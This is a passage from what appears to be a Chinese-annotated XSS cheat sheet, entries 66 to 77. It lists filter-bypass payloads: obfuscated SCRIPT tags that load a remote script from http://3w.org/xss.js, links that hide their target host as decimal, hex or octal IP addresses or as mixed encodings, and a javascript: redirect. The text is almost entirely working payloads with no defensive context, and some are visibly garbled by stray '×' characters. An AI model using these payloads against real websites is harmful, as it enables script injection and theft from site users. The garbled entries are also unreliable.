 (66)

    <SCRIPT a=”>’>” SRC=”http://3w.org/xss.js”></SCRIPT>

(67)

    <SCRIPT>document.write(“<SCRI”);</SCRIPT>PT SRC=”http://3w.org/xss.js”>
    </SCRIPT>

(68) URL绕行

    <A HREF=”http://127.0.0.1/”>XSS</A>

(69) URL编码

    <A HREF=”http://3w.org”>XSS</A>

(70) IP十进制

    <A HREF=”http://3232235521″>XSS</A>

(71) IP十六进制

    <A HREF=”http://0xc0.0xa8.0×00.0×01″>XSS</A>

(72) IP八进制

    <A HREF=”http://0300.0250.0000.0001″>XSS</A>

(73) 混合编码

    <A HREF=”h
    tt p://6 6.000146.0×7.147/”">XSS</A>

(74) 节省[http:]

    <A HREF=”//3w.org/”>XSS</A>

(75) 节省[www]

    <A HREF=”http://yunsec.net/”>XSS</A>

(76) 绝对点绝对DNS

    <A HREF=”http://3w.org./”>XSS</A>

(77) javascript链接

    <A HREF=”javascript:document.location=’http://3w.org/’”>XSS</A>

